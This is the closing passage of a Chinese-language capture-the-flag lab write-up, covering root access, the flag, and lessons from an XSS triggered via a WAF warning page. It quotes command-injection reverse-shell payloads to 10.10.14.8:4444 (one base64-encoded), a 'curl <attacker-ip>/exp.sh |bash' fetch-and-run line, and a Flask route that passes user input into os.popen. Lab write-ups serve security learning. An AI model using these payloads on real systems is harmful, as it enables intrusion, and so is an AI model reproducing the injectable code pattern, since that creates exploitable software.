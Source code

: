```bash
bash-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) egid=0(root) groups=0(root),100(users),1000(dvir)
```



## flag: root

```bash
bash-5.2# cat /root/root.txt 
20f7 (...) 158e
```

---

## 总结·后记

2024/04/14

应该算是十分简单的靶机，但是由于一开始并未领悟XSS触发条件为需要先触发WAF警告页面——因为报头注入的XSS会在WAF警告页面回显，所以一开始还卡了挺久的。回想起来最初看到WAF警告时，连警告页面的内容都没仔细看，就直接默认需要一些高级技巧来绕过，对XSS绕过进行了一阵大搜特搜，着实走偏了。最后意识到问题所在，便一切豁然开朗，迅速拿下。


### 失败的反弹shell

反弹shell的部分最开始试了下`;bash -i >& /dev/tcp/10.10.14.8/4444 0>&1`，以及其相关形式，如`;bash -c 'echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQ== |base64 -d |bash'`等都不行。很是奇怪，看了下目标脚本的处理也没明白为什么。  
不过将命令行写到脚本，然后用`curl <attacker-ip>/exp.sh |bash`的形式调用是可行的。

相关脚本：
```bash
bash-5.2$ cat /home/dvir/app/app.py

from flask import Flask, render_template, request, make_response, abort, send_file
from itsdangerous import URLSafeSerializer
import os
import random

 (...)

@app.route('/dashboard', methods=['GET', 'POST'])
def admin():
    if serializer.loads(request.cookies.get('is_admin')) == "user":
        return abort(401)

    script_output = ""

    if request.method == 'POST':
        date = request.form.get('date')
        if date:
            script_output = os.popen(f'bash report.sh {date}').read()

    return render_template('dashboard.html', script_output=script_output)
```
